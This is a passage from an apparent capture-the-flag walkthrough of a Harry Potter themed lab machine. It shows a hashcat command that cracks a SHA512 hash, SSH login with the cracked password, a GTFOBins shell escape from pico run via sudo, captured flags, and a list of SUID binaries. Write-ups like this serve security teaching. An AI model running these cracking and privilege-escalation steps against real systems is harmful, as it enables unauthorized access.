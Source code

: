 So we can concentrate at Harry's hash and looking at the hash it is possibly SHA512. So there is a best64 rule in hashcat for constructing strings!

hashcat -m 1700 -a 0 hash.txt -r /usr/share/hashcat/rules/best64.rule spellnames.txt

```
wingardiumleviosa123
```

We can ssh as Harry! 

# user1.txt

```
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```

# sudo -l

```bash
User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
```

Looking at GTFO bins we can get a shell!

```bash
^R^X
reset; sh 1>&0 2>&0
bash -i
```

And we are in as hermonine!

# user2.txt

```
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```

Looking for suid bits.

```
/srv/time-turner/swagger => Let's investigate this
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/mount
```
